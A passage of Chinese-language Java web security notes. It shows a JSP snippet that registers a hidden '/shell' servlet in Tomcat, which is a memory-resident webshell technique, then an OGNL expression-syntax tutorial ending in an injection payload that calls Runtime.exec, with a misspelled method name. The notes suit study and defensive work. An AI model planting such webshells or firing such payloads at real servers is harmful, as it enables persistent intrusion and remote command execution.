 ```jsp
 
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
 
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

### JavaAgent内存马

## ONGL注入
OGNL具有三要素：表达式（expression）、根对象（root）和上下文对象（context）。

- 表达式（expression）：表达式是整个OGNL的核心，通过表达式来告诉OGNL需要执行什么操作；
- 根对象（root）：root可以理解为OGNL的操作对象，OGNL可以对root进行取值或写值等操作，表达式规定了“做什么”，而根对象则规定了“对谁操作”。实际上根对象所在的环境就是 OGNL 的上下文对象环境；
- 上下文对象（context）：context可以理解为对象运行的上下文环境，context以MAP的结构、利用键值对关系来描述对象中的属性以及值；

###### 使用操作符号
OGNL表达式中能使用的操作符基本跟Java里的操作符一样，除了能使用`+, -, *, /, ++, --, ==, !=, =等操作符之外，还能使用mod, in, not in等。`

###### 容器、数组、对象
OGNL支持对数组和ArrayList等容器的顺序访问。例如：`group.users[0]`

同时，OGNL支持对Map的按键值查找。例如：`#session['mySessionPropKey']`

不仅如此，OGNL还支持容器的构造的表达式。例如：`{"green", "red", "blue"}`构造一个List，`#{"key1" : "value1", "key2" : "value2", "key3" : "value3"}构造一个Map`

你也可以通过任意类对象的构造函数进行对象新建。例如：`new Java.net.URL("xxxxxx/")`

###### 对静态方法或变量的访问
要引用类的静态方法和字段，他们的表达方式是一样的@class@member或者@class@method(args)。
例如：`@com.javaeye.core.Resource@ENABLE，@com.javaeye.core.Resource@getAllResources`

##### payload
```java
@java.lang.Runtime@getRumtime().exec("ls")



```
